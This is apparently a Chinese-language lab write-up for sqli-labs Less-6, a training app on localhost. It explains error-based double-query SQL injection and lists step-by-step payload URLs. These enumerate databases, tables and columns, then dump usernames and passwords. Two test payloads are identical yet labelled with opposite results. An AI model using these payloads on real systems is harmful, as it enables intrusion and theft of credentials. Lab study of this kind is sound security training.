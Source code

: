 ## 练习开始


首先打开http://127.0.0.1/Less-6/?id=1

![](luffy1.png)

less-6是基于错误的GET双引号双查询变形字符型注入，位置在where之后且后跟limit




```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo "<font size='5' color= '#99FF00'>";
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
```


和之前Less-5的区别在于由单引号改成了双引号

测试用的payload
```
" and 1=1 %23 返回正确
" and 1=1 %23 返回错误

```

**%23和--+等价**


针对该题可以用盲注的方式搞定，根据本题标题，双注入 还是用显错式的方式



最常见的查询方式是

```

select count(*), concat('~',(select user()),'~', floor(rand()*2))as a from users group by a;

```

派生表的查询方式

```

select 1 from (select count(*), concat('~',(select user()),'~', floor(rand()*2)) as a from information_schema.tables group by a)x;

```





## 手工注入

### 获取当前数据库

```
http://127.0.0.1/Less-6/?id=1"
```

![](luffy2.png)

看到语句出错，因为双注入查询利用的就是**print_r(mysql_error());**回显错误信息

获取当前数据库版本

```
http://127.0.0.1/Less-6/?id=1" union select 1, count(*), concat('~',(select version()),'~', floor(rand()*2)) as a from users group by a --+
```

![](luffy3.png)



获取当前用户

```
http://127.0.0.1/Less-6/?id=1" union select 1, count(*), concat('~',(select user()),'~', floor(rand()*2)) as a from users group by a --+
```

![](luffy4.png)




### 判断当前数据库数量


```
http://127.0.0.1/Less-6/?id=" union select 123, count(*), concat('~',(select count(*) from information_schema.schemata),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
```

![](luffy5.png)
一共五个数据库

判断第一个数据库
```

http://127.0.0.1/Less-6/?id=" union select 123, count(*), concat('~',(select schema_name from information_schema.schemata limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

```
![](luffy6.png)

通过修改limit之后的第一个参数逐步遍历数据库



### 检查security数据库的表


```

http://127.0.0.1/Less-6/?id=" union select 123, count(*), concat('~',(select count(*) from information_schema.tables where table_schema="security" ),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

```
![](luffy7.png)

可以知道security有四个表



通过修改limit之后的第一个参数逐步遍历数据库的表

```
http://127.0.0.1/Less-5/?id=' union select 123, count(*), concat('~',(select table_name from information_schema.tables where table_schema="security" limit 0,1 ),'~', floor(rand()*2)) as a from information_schema.tables group by a --+
```

![](luffy8.png)


### 检查security数据库中user表的列

判断列的数量

```
http://127.0.0.1/Less-6/?id=" union select 123, count(*), concat('~',(select count(*) from information_schema.columns where table_schema='security' and table_name="users"),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

```

![](luffy9.png)

检查列的内容

```
http://127.0.0.1/Less-6/?id=" union select 123, count(*), concat('~',(select column_name from information_schema.columns where table_schema='security' and table_name="users" limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

```

![](luffy10.png)


### 爆出数据

```

http://127.0.0.1/Less-6/?id=" union select 123, count(*), concat('~',(select concat_ws(":",username,password) from users limit 1,1),'~', floor(rand()*2)) as a from information_schema.tables group by a --+

```

![](luffy11.png)







双注入的原理解释

[链接一](http://www.myhack58.com/Article/html/3/7/2016/73471.htm)

[链接二](https://www.cnblogs.com/dplearning/p/7355595.html)


